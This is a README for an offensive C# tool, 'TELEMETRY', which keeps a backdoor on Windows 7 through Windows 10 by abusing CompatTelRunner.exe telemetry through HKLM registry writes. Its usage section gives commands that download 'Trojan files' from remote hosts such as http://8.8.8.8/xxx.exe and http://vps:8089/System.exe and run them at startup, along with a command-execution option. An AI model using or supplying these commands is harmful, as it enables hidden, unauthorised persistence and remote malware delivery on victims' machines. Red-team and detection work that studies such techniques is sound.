


# TELEMETRY


### Background

[TELEMETRY](#TELEMETRY-1) is a C# For Windows PERSISTENCE

Today we’re going to talk about a persistence method that takes advantage of some of the wonderful telemetry that Microsoft has included in Windows versions for the last decade. The process outlined here affects Windows machines from 2008R2/Windows 7 through 2019/Windows 10.

- **Local admin rights to install (requires the ability to write to HKLM)**
- **Have CompatTelRunner.exe**
- **2008R2/Windows 7 through 2019/Windows 10**

### Command Line Usage

        ABUSING WINDOWS TELEMETRY FOR PERSISTENCE
                                                 .Imanfeng
    	Features:
            Install:   -   Deployment authority maintains backdoor
    
        Command :
            TELEMETRY.exe install /command:calc
            -   Execute command without file backdoor
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe /path:C:\Windows\Temp\check.exe
            -   Remotely download Trojan files to the specified directory for backdoor startup
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe
            -   Remotely download Trojan files to C:\\Windows\\Temp\\compattelrun.exe for backdoor startup
    
            TELEMETRY.exe install /path:C:\Windows\Temp\check.exe
            -   Set path Trojan files for backdoor startup
    
        Parameter:
            /command: -   Execute Command
            /url:     -   Download FROM
            /path:    -   Download To

- Execute command without file backdoor

  ```
  Telemetry.exe install /command:calc
  ```

  

  

- Remotely download Trojan files for backdoor startup

  ```
  Telemetry.exe install /url:http://vps:8089/System.exe
  ```

  

  

### Learn

https://www.trustedsec.com/blog/abusing-windows-telemetry-for-persistence/